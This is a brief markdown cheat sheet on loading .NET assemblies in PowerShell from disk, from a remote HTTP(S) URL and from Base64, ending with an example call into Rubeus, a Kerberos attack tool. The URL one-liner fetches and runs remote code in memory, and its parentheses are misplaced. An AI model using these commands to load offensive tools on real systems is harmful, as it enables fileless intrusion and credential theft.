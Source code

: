 # PowerShell Assembly Loading

## Loading
### Disk
```powershell
[System.Reflection.Assembly]::LoadFrom('<path_to_file>')
```

### HTTP(S) URL
```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest '<http(s)>://<host>:<port>/<uri>')).Content
```

### Base64
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String('<base64_string>'))
```

## Execution
```powershell
# [<PublicNamespace>.<PublicClass>]::Function(<arguments>
[Rubeus.Program]::Main("klist")
```